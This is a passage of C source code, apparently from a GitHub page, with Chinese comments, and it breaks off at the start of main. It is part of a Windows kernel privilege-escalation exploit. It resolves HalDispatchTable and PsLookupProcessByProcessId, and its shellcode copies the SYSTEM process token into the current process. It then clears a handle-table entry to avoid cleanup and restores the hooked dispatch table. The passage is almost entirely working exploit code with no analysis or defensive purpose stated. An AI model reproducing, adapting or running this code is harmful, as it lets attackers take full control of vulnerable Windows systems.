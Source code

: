 ```
    } 
    PSYSTEM_MODULE_INFORMATION Info = (PSYSTEM_MODULE_INFORMATION)malloc(cbNeed); 
 
    Status = MyNtQuerySystemInformation(11, Info, cbNeed, &cbNeed); 
    if (!NT_SUCCESS(Status)) 
    { 
        printf("MyNtQuerySystemInformation Failed %p\n", Status); 
        return 0; 
    } 
 
    DWORD Ntbase = Info->Module[0].Base; 
    HMODULE Mynt = LoadLibrary(Info->Module[0].ImageName + Info->Module[0].OffsetToFileName); 
    if (Mynt == NULL) 
    { 
        printf("LoadLibrary Nt Failed\n" ); 
        return 0; 
    } 
 
    MyHalDispatchTable = (ULONG)GetProcAddress(Mynt, "HalDispatchTable") - (ULONG)Mynt + Ntbase; 
    if (MyHalDispatchTable == NULL) 
    { 
        printf("Get HalDispatchTable Failed %p\n", GetLastError()); 
        return 0; 
    } 
 
    MyPsLookupProcessByProcessId = (ULONG)GetProcAddress(Mynt, "PsLookupProcessByProcessId") - (ULONG)Mynt + Ntbase; 
    if (MyPsLookupProcessByProcessId == NULL) 
    { 
        printf("Get PsLookupProcessByProcessId  Failed %p\n", GetLastError()); 
        return 0; 
    } 
 
    return 1; 
} 
 
 
NTSTATUS __stdcall Shellcode(int a,int b,int c,int d) 
{ 
    //获取自己和系统进程的EPROCESS 
    PEPROCESS pCur, pSys; 
    DWORD ObjTable; 
    MyPsLookupProcessByProcessId(GetCurrentProcessId(), &pCur); 
    MyPsLookupProcessByProcessId(4, &pSys); 
 
    //提权 0xF8为token位置 
    *(DWORD*)(pCur + 0xF8) = *(DWORD*)(pSys + 0xF8); 
 
    //绕过清理句柄 
    ObjTable = *(DWORD*)(pCur + 0xF4); 
    *(DWORD*)(ObjTable + 0x30) -= 1; 
    ObjTable = *(DWORD*)ObjTable; 
    *(DWORD*)(ObjTable + ((DWORD)hWorkerFactory * 2)) = 0; 
 
    //恢复Hook 
    *(DWORD*)(MyHalDispatchTable + 4) = oldHaliQuerySystemInformation; 
 
    return 0; 
} 
 
int main(int argc, char** argv) 
{ 
    //获取需要的所有地址 
```